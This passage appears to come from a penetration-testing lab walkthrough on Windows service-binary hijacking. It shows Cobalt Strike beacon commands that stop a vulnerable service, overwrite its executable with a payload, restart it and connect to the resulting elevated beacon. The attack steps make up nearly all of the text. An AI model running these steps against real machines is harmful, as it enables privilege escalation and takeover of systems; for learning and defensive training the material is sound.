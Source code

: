 #### Upload Payload

Now it's time tp upload our payload. We'll rename the payload to the name of the binary used in the service.

```powershell
PS C:\Attacker\Payloads> copy "tcp-local_x64.svc.exe" "Service 3.exe"
```

```powershell
beacon> upload C:\Payloads\Service 3.exe
[-] could not upload file: 32 - ERROR_SHARING_VIOLATION
```

Note: The error ERROR\_SHARING\_VIOLATION means the file is already running. We'll need to stop the service.

```powershell
beacon> run sc stop VulnService3
beacon> upload C:\Payloads\Service 3.exe
beacon> ls
[*] Listing: C:\Program Files\Vuln Services\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 290kb    fil     03/03/2021 11:38:24   Service 3.exe

beacon> run sc start VulnService3
beacon> connect localhost 4444
```

